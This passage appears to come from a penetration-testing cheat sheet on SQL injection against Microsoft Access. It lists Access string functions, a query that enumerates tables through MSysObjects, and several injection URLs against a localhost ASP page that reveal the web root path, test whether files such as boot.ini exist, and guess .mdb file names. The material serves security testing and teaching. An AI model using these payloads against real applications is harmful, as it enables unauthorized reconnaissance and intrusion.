 Check [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676\(v=technet.10\)?redirectedfrom=MSDN)

### Other Interesting functions

* `Mid('admin',1,1)` get substring from position 1 length 1 (initial position is 1)
* `LEN('1234')` get length of string
* `ASC('A')` get ascii value of char
* `CHR(65)` get string from ascii value
* `IIF(1=1,'a','b')` if then
* `COUNT(*)` Count number of items

## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
### FileSystem access

### Web Root Directory Full Path

**web root absolute path may facilitate further attacks**. If application errors are not completely concealed, the directory path can be uncovered trying to select data from an inexistent database.

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access responds with an **error message containing the web directory full pathname**.

### File Enumeration

**inferrer the existence of a file on the remote filesystem**. If the specified file exists, MS Access triggers an error message informing that the database format is invalid:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

**specifying a database.table item**. **If** the specified **file exists**, MS Access displays a **database format error message**.

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb File Name Guessing

**Database file name (.mdb)** can be inferred with the following query:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`
